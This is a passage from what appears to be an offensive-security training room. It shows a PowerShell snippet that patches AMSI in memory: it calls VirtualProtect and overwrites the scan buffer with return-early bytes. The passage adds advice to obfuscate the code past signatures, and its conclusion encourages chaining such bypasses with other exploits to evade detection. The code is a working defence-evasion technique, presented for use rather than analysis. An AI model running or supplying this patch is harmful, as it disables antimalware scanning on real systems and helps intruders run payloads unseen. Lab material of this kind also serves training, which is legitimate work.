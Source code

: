 ```html
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Signatures are highlighted in red; you can break these signatures by encoding, obfuscating, etc.

# Conclusion

----

Runtime detections and AMSI are only one of many detections and mitigations you can face when employing techniques against a hardened or up-to-date device.

These bypasses can be used on their own or in a chain with other exploits and techniques to ultimately - evade all the things.

It is important to keep these tools from this room in your back pocket. You cannot solely rely on them to evade detections, but you can get around and deter a lot of detections using the discussed techniques.

